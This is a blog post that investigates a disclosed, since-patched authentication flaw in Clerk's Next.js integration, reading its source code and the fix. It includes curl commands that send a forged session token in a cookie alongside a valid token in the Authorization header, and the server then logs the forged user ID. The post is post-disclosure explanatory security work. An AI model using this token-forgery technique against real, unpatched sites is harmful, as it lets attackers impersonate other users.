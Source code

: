 ```yaml
---
title: "Investigating a major security vulnerability with Clerk's Next.js integration"
description: "Figuring out how a major auth provider fucked up."
date: "2024-01-26"
---
```


On January 12th 2024, Clerk [disclosed a major security vulnerability](https://clerk.com/changelog/2024-01-12) with their Next.js integration. Clerk is an auth provider similar to Auth0 and Firebase Auth, and Next.js is a popular JavaScript framework for building websites with React. The severity was immediately obvious. It allowed malicious actors to act on behalf of other users and had a CVSS score of 9.4 (critical).

But of course they didn't publicly share the exact details of the exploit. Nor was it clear how bad the vulnerability actually was. So instead of waiting for them to release their promised postmortem, I decided to figure it out myself. I thought it would be a fun challenge since I maintain an auth library as well.

_This was written (but not published) before their [postmortem]() was released._

## Deep dive

Reading through the vulnerability report, the only hint I could find was that it had something to do with the internals used by `auth()` and `getAuth()`. Both of these are server APIs that return the current user.

> The vulnerability impacts applications that use a Next.js backend. Specifically, those that call `auth()` in the App Router, or `getAuth()` in the Pages Router.

After looking through the source code, I found that `auth()` just used `getAuth()` under the hood, which was initialized with `createGetAuth()`. I also looked through the commit history between the patch (`4.29.3`) and the previous release (`4.29.2`), and saw that `createGetAuth()` had been rewritten. So this looked like a good place to start. All source code I'll be showing .

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const createGetAuth = ({ debugLoggerName, noAuthStatusMessage }) =>
	withLogger(debugLoggerName, (logger) => {
		return (req, opts) => {
			const authStatus = getAuthKeyFromRequest(req, "AuthStatus");
			// ...
			if (!authStatus) {
				throw new Error(noAuthStatusMessage);
			}
			const options = {
				// ...
			};
			if (authStatus !== AuthStatus.SignedIn) {
				return signedOutAuthObject(options);
			}
			const jwt = parseJwt(req);
			const signedIn = signedInAuthObject(jwt.payload, { ...options, token: jwt.raw.text });
			// ...
			return signedIn;
		};
	});
```

One thing sticked out to me immediately - `parseJwt()`. Here I learned Clerk uses JWT (JSON Web Token) for session tokens.

For those that don't know what a JWT is, it's a token with some JSON data (such as user ID) and a signature embedded into it. The signature allows you to verify the integrity of the JSON data using a secret key. It's become popular as it allows you to validate tokens without a database - though it of course comes with its own downsides.

But `parseJwt()` just decoded the JWT payload. Why was it not validating the signature? That... can't be it right? Surely a multimillion dollar company won't make such a dumb mistake. And of course they didn't. Reading the code again, there was an `if` statement to check the current auth status before it decoded the token. That status was stored in... the request?! Apparently the current auth status among other attributes were either directly stored in the `Request` object or as a custom header.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/utils.js
function getAuthKeyFromRequest(req, key) {
	return (
		getCustomAttributeFromRequest(req, constants.Attributes[key]) ||
		getHeader(req, constants.Headers[key]) ||
		(key === "AuthStatus" ? getQueryParam(req, constants.SearchParams.AuthStatus) : void 0)
	);
}
```

So my guess was that they were validating the token somewhere, storing the current status to the request header as `AuthStatus`, and then parsing the token again when it needed to get the user if `AuthStatus` was set to `"signed-in"`.

And that was exactly what was happening because Clerk used Next.js middleware.

Middleware allows you to run code on every request as well as modify the request/response. But unlike middleware in every other framework, in Next.js it runs on the _Edge™_ - basically a CDN that runs your code. This means the server hosting the middleware can be different from rest of your application even for the same request. You can't just pass JS objects, such as the current user, between middleware and route handlers (where `auth()` is used). Instead, you have to add custom headers to the request.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/authMiddleware.js
const authMiddleware = (...args) => {
	// ...
	return withLogger("authMiddleware", (logger) => async (_req, evt) => {
		const req = withNormalizedClerkUrl(_req);
		// ...
		// checks if authenticated
		const requestState = await authenticateRequest(req, options);
		// ...
		// set custom headers to be read by `auth()`
		return decorateRequest(req, finalRes, requestState);
	});
};
```

So at first, I thought maybe the vulnerability was that you can just send a `AuthStatus` header with a parsable, but invalid JWT. Maybe you could trick `auth()` into thinking that the token had been already validated, and it would parse the token without validating it.

```bash
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl https://localhost:3000 \
    -H "Cookie: __session=$FAKE_TOKEN;__client_uat=1705888300" \
    -H "User-Agent": "im a browser i swear" \
    -H "X-Clerk-Auth-Status": "signed-in"
```

But again, it wasn't that simple. The middleware will set the `AuthStatus` header even for unauthenticated request so you can't manually override it.

I was stuck for a while but then realized I missed something.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const parseJwt = (req) => {
	const cookieToken = getCookie(req, constants.Cookies.Session);
	const headerToken = getHeader(req, "authorization")?.replace("Bearer ", "");
	return decodeJwt(cookieToken || headerToken || "");
};
```

`parseJwt()` accepts tokens from cookies and HTTP `Authorization` header at the same time. **_Holy shit._**

What happens if you send both a valid and fake session token at the same time?

```bash
VALID_TOKEN="<VALID_SESSION>"
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl http://localhost:3000/user \
    -H "Authorization: $VALID_TOKEN" \
    -H "Cookie: __session=$FAKE_TOKEN"
```

```ts
import { auth } from "@clerk/nextjs";

export async function GET() {
	const { userId } = auth();
	console.log(`User ID: ${userId}`);
	// ...
}
```

What get's logged?

```
User ID: pwned
```

Bingo. `parseJWT()` wrongly assumes _both_ the token in the `Authorization` header and the cookie had been validated, when in reality only _one_ had been validated. This is a big yikes. A very big one. You could essentially impersonate any user with this as long as you know their user ID, which could be public information.

If you'd like to see the exploit in action, I have a [reproduction](https://github.com/pilcrowOnPaper/clerk-nextjs-vulnerability) available on GitHub.

## Closing thoughts

Clerk has fixed this issue by passing the validated token alongside `AuhStatus` in the header, and parsing that token instead.

This vulnerability was only found in the Next.js integration and it's obvious why. Middleware in Next.js isn't the place to run shared logic such as auth, and it shouldn't be seen as a comparable API to middleware in other libraries and frameworks.
